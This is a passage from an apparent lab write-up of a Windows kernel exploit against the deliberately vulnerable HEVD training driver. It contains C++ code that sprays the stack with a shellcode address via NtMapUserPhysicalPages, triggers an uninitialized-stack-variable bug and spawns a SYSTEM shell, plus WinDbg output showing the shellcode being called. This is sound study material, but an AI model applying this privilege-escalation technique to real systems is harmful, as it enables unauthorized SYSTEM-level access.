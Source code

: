 ```cpp
    // This for loop will take our 4096 character array and fill it with the Spray_Address value
    for (int i = 0; i < 1024; i++)
    {
        memcpy((Page_Frame_Numbers + (i * 4)), Spray_Address, 4);
    }

    // Calling the API finally, thanks again, tekwizz
    printf("[*] Spraying stack and triggering vulnerability...\n");
    NtMapUserPhysicalPages(&Zero,
        1024,
        (PBYTE)&Page_Frame_Numbers);

    DWORD Dummy_Bytes = 0;

    // Trigger bug
    DeviceIoControl(HEVD,
        0x22202F,
        &Input_Buffer,
        sizeof(Input_Buffer),
        NULL,
        0,
        &Dummy_Bytes,
        NULL);

    printf("[*] Spawning nt/authority system cmd.exe shell...\n");
    Spawn_Shell();

    return 0;
}

```

The main idea is very simple: if we provide something else except for 0xBAD0B0B0, we'll not set `UninitializedStackVariable.Callback = UninitializedStackVariableObjectCallback;` and Callback will be called not initialized from the stack (that means something that is aligned in the stack, some junk)

And we spray the stack with out address so out shellcode will be called as a callback.

Don't know why, but if we put the breakpoint on the start of the function, exploit wouldn't work

We should delete it and leave just `bp HEVD!TriggerUninitializedStackVariable+94`

In this case we'll see:

```js
...
9758bf8e ff95f8feffff    call    dword ptr [ebp-108h] ss:0010:ac9c59ac=001d0000
...

kd> !thread
...
Stack Init ac9c5ed0
...

kd> ?ac9c5ed0-0x524
Evaluate expression: -1399039572 = 

kd> dd ac9c59ac L1
ac9c59ac  001d0000

We see out address of the shellcode

kd> u 001d0000
001d0000 60              pushad
001d0001 64a124010000    mov     eax,dword ptr fs:[00000124h]
001d0007 8b4050          mov     eax,dword ptr [eax+50h]
```